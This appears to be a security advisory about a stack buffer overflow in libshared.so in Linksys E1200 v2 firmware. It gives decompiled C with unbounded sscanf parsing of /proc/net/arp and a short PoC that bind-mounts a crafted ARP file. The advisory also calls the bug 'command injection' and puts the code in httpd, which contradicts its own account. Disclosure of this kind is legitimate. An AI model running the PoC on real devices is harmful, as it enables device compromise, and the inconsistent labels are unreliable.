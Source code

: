 # Buffer Overflow Vulnerability in `/proc/net/arp`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | Cisco Linksys E1200 v2 Router                                |
| Firmware Version     | **E1200_v2.0.11.001_us.tar.gz**                              |
| Vulnerability Type   | **Stack-Based Buffer Overflow**                              |
| Vulnerable Component | `libshared.so` (functions `get_mac_from_ip` & `get_ip_from_mac`, buffers `v6`, `v7`) |
| Prerequisites        | Requires control over `/proc/net/arp` content or filesystem write permissions (local exploitation only) |

2. Exploitation Path

```c
char *__fastcall get_mac_from_ip(const char *a1)
{
  FILE *v1; // $v0
  FILE *v2; // $s1
  char v4; // [sp+28h] [-138h] BYREF
  char v5; // [sp+2Ch] [-134h] BYREF
  char v6[50]; // [sp+30h] [-130h] BYREF
  char v7[150]; // [sp+62h] [-FEh] BYREF
  char v8[104]; // [sp+F8h] [-68h] BYREF

  v1 = fopen("/proc/net/arp", "r");
  v2 = v1;
  if ( !v1 )
    return 0;
  if ( fgets(v8, 100, v1) )
  {
    while ( fgets(v8, 100, v2) )
    {
      if ( sscanf(v8, "%s 0x%x 0x%x %100s %100s %100s\n", 
                  v6, &v4, &v5, v7, &v7[50], &v7[100]) == 6 && !strcmp(a1, v6) )
      {
        strcpy(mac_7685, v7);
        fclose(v2);
        return mac_7685;
      }
    }
  }
  fclose(v2);
  return &byte_71F1C;
}

char *__fastcall get_ip_from_mac(const char *a1)
{
  FILE *v1; // $v0
  FILE *v2; // $s1
  char v4; // [sp+28h] [-138h] BYREF
  char v5; // [sp+2Ch] [-134h] BYREF
  char v6[50]; // [sp+30h] [-130h] BYREF
  char v7[150]; // [sp+62h] [-FEh] BYREF
  char v8[104]; // [sp+F8h] [-68h] BYREF

  v1 = fopen("/proc/net/arp", "r");
  v2 = v1;
  if ( !v1 )
    return 0;
  if ( fgets(v8, 100, v1) )
  {
    while ( fgets(v8, 100, v2) )
    {
      if ( sscanf(v8, "%s 0x%x 0x%x %100s %100s %100s\n", 
                  v6, &v4, &v5, v7, &v7[50], &v7[100]) == 6 && !strcmp(a1, v7) )
      {
        strcpy(ip_7706, v6);
        fclose(v2);
        return ip_7706;
      }
    }
  }
  fclose(v2);
  return &byte_71F1C;
}
```

3. **Vulnerable Binaries:** `libshared.so`.
4. 0-Day Command Injection Exploitation Path:
   - In the `httpd` file, at line 17, `fgets(v8, 100, v2)` reads data from the `/proc/net/arp` file. At line 19, `sscanf(v8, "%s 0x%x 0x%x %100s %100s %100s\n", v6, &v4, &v5, v7, &v7[50], &v7[100])` parses the string. The buffer `v6` has no length restriction, and `&v7[50]` is limited to 50 bytes but may read up to 100 bytes, both leading to buffer overflow vulnerabilities.
   - In the `httpd` file, at line 48, `fgets(v8, 100, v2)` reads data from the `/proc/net/arp` file. At line 50, `sscanf(v8, "%s 0x%x 0x%x %100s %100s %100s\n", v6, &v4, &v5, v7, &v7[50], &v7[100])` parses the string. The buffer `v6` has no length restriction, and `&v7[50]` is limited to 50 bytes but may read up to 100 bytes, both leading to buffer overflow vulnerabilities.
5. Proof of Concept (PoC) for Reproducing the Vulnerability

```bash
echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 0x1 0x2 BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB 0x0 0x0" > /tmp/fake_arp
mount --bind /tmp/fake_arp /proc/net/arp
```

